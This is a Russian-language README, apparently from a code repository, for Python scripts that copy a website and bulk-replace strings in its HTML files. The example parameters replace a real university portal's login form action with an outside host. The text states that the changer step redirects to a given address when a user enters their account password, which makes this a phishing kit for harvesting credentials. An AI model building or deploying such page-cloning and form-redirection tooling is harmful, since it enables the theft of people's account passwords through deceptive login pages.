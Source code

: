 ﻿#HelperScript

Python 3.5

В ходе работы возникла задача автоматической обработки нескольких документов по определенным правилам.

Запускать в папке с файлами

Данный скрипт
* позволяет произвести действия по замене частей файлов
* можно указать требуемые типы файлов
* делает бекапы файлов
* <b>[Update!]</b> проходит папку рекурсивно

Параметры скрипта
* <b>dirname</b> - папка с новыми файлами (по умолчанию !new)
* <b>backupdir</b> - папка с бекапом файлов (по умолчанию !old)
* <b>format</b> - какие документы (формат) изменяем (по умолчанию .html)
* <b>old</b> - что меняем (не забываем про экранирование кавычек обратным слешем) (например, "id=\"logonForm\" action=\"https://de.ifmo.ru/servlet/\"")
* <b>new</b> - на что меняем (при необходимости можно прогнать несколько раз) (например, "id=\"logonForm2\" action=\"http://flagruger.16mb.com/2.php/\"")

##script.py
Альтернативный способ автоматического создания сайта.

Данный скрипт необходимо забросить в каталог с сайтом, где находится code.
При запуске системы сборки в корне проекта:

    make

этот скрипт будет запущен делая копию сайта в папке для результатов.
В ходе работы будет вызван другой скрипт - changer.py, который должен лежать в том же каталоге.

Скрипт в changer.py будет запущен для каждого файла html, таким образом будет удобно не акцентировать внимание на чём-либо кроме замены необходимых мест в html коде.

В функцию changer передаётся код html файла, а также адрес, на который необходимо сделать перенаправление, когда пользователь введёт пароль к своей учётной записи.
